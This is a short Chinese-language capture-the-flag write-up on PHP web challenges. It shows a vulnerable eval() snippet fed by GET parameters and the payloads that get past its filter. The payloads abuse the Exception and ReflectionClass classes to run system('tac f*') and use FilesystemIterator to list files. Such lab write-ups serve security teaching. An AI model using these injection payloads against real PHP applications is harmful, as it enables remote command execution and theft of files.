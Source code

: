 payload

Exception和ReflectionClass类都可以直接命令执行

```
v1=Exception();system('tac f*');//&v2=a
v1=ReflectionClass&v2=system('tac f*')
v1=Exception&v2=system('tac f*')
```

## web110(FilesystemIterator类)

```php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

利用FilesystemIterator类

```php
<?php
$b = new FilesystemIterator(getcwd());
while($b->valid()){  //判断是否到底
    echo $b->getFilename()."\n";
    $b->next();
}
getcwd是获取当前目录
```

payload

```
v1=FilesystemIterator&v2=getcwd
因为只输出一次，所以只能输入一个文件名
```

